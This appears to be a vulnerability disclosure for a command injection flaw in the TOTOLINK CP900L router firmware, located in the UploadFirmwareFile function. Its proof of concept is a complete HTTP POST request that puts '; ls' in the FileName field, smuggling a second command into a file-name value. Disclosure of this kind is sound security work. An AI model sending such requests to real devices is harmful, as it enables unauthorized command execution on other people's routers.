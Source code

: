 # TOTOLINK CP900L V4.1.5cu.798_B20221228 command injection

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

TOTOLINK CP900L V4.1.5cu.798_B20221228 were discovered to contain a command injection vulnerability in the **UploadFirmwareFile** function via the **FileName** parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image-20240525134003667](./image-20240525134003667.png)

![image-20240525134050242](./image-20240525134050242.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close


{
    "topicurl": "UploadFirmwareFile",
    "FileName": "; ls"
}

```



